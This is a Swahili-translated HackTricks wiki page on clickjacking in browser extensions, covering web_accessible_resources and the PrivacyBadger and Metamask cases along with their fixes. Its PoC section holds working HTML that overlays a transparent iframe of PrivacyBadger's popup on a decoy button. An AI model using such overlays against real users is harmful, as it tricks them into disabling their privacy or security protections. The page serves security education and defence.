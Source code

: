 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ukurasa huu utafaidika na udhaifu wa ClickJacking katika nyongeza ya kivinjari.\
Ikiwa hujui ClickJacking ni nini angalia:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Nyongeza zina faili **`manifest.json`** na faili hiyo ya JSON ina uwanja `web_accessible_resources`. Hapa kuna kile [nyaraka za Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) zinasema kuhusu hilo:

> Rasilimali hizi zitapatikana kwenye ukurasa wa wavuti kupitia URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, ambayo inaweza kuzalishwa kwa kutumia **`extension.getURL method`**. Rasilimali zilizoorodheshwa zinatolewa na vichwa vya CORS vinavyofaa, hivyo zinapatikana kupitia mitambo kama XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

**`web_accessible_resources`** katika nyongeza ya kivinjari si tu zinapatikana kupitia wavuti; pia zinafanya kazi kwa ruhusa za ndani za nyongeza. Hii inamaanisha zina uwezo wa:

* Kubadilisha hali ya nyongeza
* Kupakia rasilimali za ziada
* Kuingiliana na kivinjari kwa kiwango fulani

Hata hivyo, kipengele hiki kinatoa hatari ya usalama. Ikiwa rasilimali ndani ya **`web_accessible_resources`** ina kazi yoyote muhimu, mshambuliaji anaweza kuingiza rasilimali hii kwenye ukurasa wa wavuti wa nje. Watumiaji wasiojua wanaotembelea ukurasa huu wanaweza bila kukusudia kuamsha rasilimali hii iliyounganishwa. Kuamsha kama hiyo kunaweza kusababisha matokeo yasiyokusudiwa, kulingana na ruhusa na uwezo wa rasilimali za nyongeza.

## PrivacyBadger Example

Katika nyongeza ya PrivacyBadger, udhaifu uligundulika kuhusiana na saraka ya `skin/` kutangazwa kama `web_accessible_resources` kwa njia ifuatayo (Angalia [blogu ya asili](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Hii usanidi ilisababisha tatizo la usalama. Kwa haswa, faili ya `skin/popup.html`, ambayo inatolewa wakati wa mwingiliano na ikoni ya PrivacyBadger kwenye kivinjari, inaweza kuingizwa ndani ya `iframe`. Kuingizwa huku kunaweza kutumika kudanganya watumiaji kujiingiza bila kujua kwenye kubofya "Disable PrivacyBadger for this Website". Kitendo kama hicho kingehatarisha faragha ya mtumiaji kwa kuzima ulinzi wa PrivacyBadger na kwa uwezekano kupelekea mtumiaji kufuatiliwa zaidi. Onyesho la kuona la exploit hii linaweza kuangaliwa katika mfano wa video ya ClickJacking uliopewa kwenye [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Ili kushughulikia udhaifu huu, suluhisho rahisi lilitekelezwa: kuondoa `/skin/*` kutoka kwenye orodha ya `web_accessible_resources`. Mabadiliko haya yalipunguza hatari kwa kuhakikisha kwamba maudhui ya saraka ya `skin/` hayawezi kufikiwa au kubadilishwa kupitia rasilimali zinazoweza kufikiwa mtandaoni.

Suluhisho lilikuwa rahisi: **ondoa `/skin/*` kutoka kwenye `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Mfano wa Metamask

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). Katika kesi hii, Metamask ilirekebisha udhaifu kwa kuangalia kwamba protokali iliyotumika kuifikia ilikuwa **`https:`** au **`http:`** (sio **`chrome:`** kwa mfano):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**ClickJacking nyingine iliyorekebishwa** katika nyongeza ya Metamask ilikuwa kwamba watumiaji wangeweza **Click to whitelist** wakati ukurasa ulikuwa na shaka kuwa ni uvuvi kwa sababu ya `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Kwa kuwa ukurasa huo ulikuwa na udhaifu wa Clickjacking, mshambuliaji angeweza kuutumia kuonyesha kitu cha kawaida ili kumfanya mwathirika abonyeze kuorodhesha bila kutambua, na kisha kurudi kwenye ukurasa wa uvuvi ambao utaorodheshwa.

## Mfano wa Steam Inventory Helper

Angalia ukurasa ufuatao ili kuona jinsi **XSS** katika nyongeza ya kivinjari ilivyofungamanishwa na udhaifu wa **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Marejeo

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
